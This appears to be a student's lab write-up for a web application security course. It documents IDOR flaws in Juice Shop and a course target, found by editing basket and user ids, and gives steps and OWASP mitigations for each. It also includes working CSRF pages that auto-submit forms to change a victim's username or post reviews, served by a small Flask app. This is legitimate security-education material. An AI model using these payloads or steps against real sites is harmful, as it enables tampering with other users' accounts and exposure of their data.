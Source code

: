 # Web Application Security

## Week 01  

### Authorization Bypass:

#### JuiceShop - View Basket

**Title:** Unauthorized user can view other users baskets.

**Description:** Web Application has insecure direct object vulnerability. Application stores unecrypted basket id in session storage when querying basket items from users basket. Changing basket id enables unauthorized user to view other users basket.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.

---

#### Main target - Order history is vulnerable to Indirect Object Reference

**Title:** Unauthorized user can view other users order history and access address information.

**Description:** Web Application has insecure direct object vulnerability.  Application enables unauthorized user to view other user order history by chaning user id in the url address.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`
![image](../images/was1.PNG)


* Impact estimation:
    * Low Severity. User can access other users order history and view their address information.
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  
    * Don't include user id in url parameter.

---

### Cross Site Forgery

#### Juice Shop - Cross-Site Request Forgery (2 point) :

**Title:** Cross Site Forgery - Change victim username 

**Description:** Web Application allows cross site request and is vulnerable for forged websites to send http requests to application. This allows malicious websites execute `http:POST/`  request towards the website and change other users usernames.

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  

![image](../images/was3.png)


* Impact estimation:
    * Low Severity. User can make harm for other users by changing their usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)
---

#### Main Target - Review product feature is vulnerable for CSRF attack

**Title:** Cross Site Forgery - Review product feature is vulnerable.

**Description:** Web Application has vulnerability in Review product feature. This vulnerability allows malicious website to send product reviews under other users name. In addition even though not exploited in this implementation, there is following vulnerabilities: 
    * csfr tokens are not hidden
    * cookies are not set to expire after session
    * double token validation is not implemented

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Wasdat Redirect</title>
    <script>
        window.onload = function() {
            document.getElementById("autoSubmitForm").submit();
        }
    </script>
</head>
<body>
        <form action="http://wasdat.fi/product/2" method="post" id="autoSubmitForm">
                <input name="review" value="ab0197"/>
                <input type="submit"/>
        </form>
</body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi/` and goes to your url, in this case: `http://127.0.0.1:5000/`. This makes automatic `http /post` request to `http://wasdat.fi/product/2` creating a new product review with value: `ab0197`. This new review is not visible to user untill he visits the page next time.

![image](../images/was4.png)
![image](../images/was5.png)


* Impact estimation:
    * Low Severity. Malicious website can make harm for other users by posting product reviews under other users usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
    * csfr tokens and session id's should not be visible to users.
        * See: ![Token based mitigation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#token-based-mitigation)
    * Require `http headers` not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)



